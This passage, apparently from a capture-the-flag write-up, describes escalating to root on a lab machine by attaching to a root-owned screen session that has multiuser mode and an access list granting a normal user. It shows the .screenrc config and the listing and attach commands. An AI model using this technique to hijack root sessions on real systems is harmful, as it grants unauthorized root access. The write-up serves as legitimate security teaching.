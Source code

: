 This on it’s own is not enough for another user to try to connect to the session. [This StackExchange answer](https://unix.stackexchange.com/a/163878/369627) talks about how to set up `screen` in multiuser mode. Once inside the session, the user needs to `multiuser on` and add the user that can connect to an access control list. As root, I can see this is done in `/root/.screenrc` (which runs each time `screen` starts):

```

multiuser on                                                                    
acladd user                                                                     
shell -/bin/bash

```

It also notes in that post that `screen` must be SUID for this to work. It isn’t on my Ubuntu 20.04 machine by default, but I understand that some distros do ship with it that way (I remember seeing it as a SUID binary on a certain 24-hour exam I took in 2018).

Because `screen` is configured exactly this way, I can exploit it as follows.

#### Screen Sessions

Running `screen -ls` will show sessions for the current user:

```

user@Backdoor:/home/user$ screen -ls
No Sockets found in /run/screen/S-user.

```

The process is running as root, so I’ll try to tell `screen` to look in `S-root`. Adding `root/` to the end of the command works:

```

user@Backdoor:/home/user$ screen -ls S-root/
Cannot identify account 'S-root'.
user@Backdoor:/home/user$ screen -ls root/
There is a suitable screen on:
        947.root        (04/20/22 16:43:20)     (Multi, detached)
1 Socket in /run/screen/S-root.

```

Interestingly, it does require the trailing `/`.

#### Connect to screen Session

I’ll connect to that session using `-x` and the `[user]/[session id]`:

```

user@Backdoor:/home/user$ screen -x root/37344              
Please set a terminal type.

```
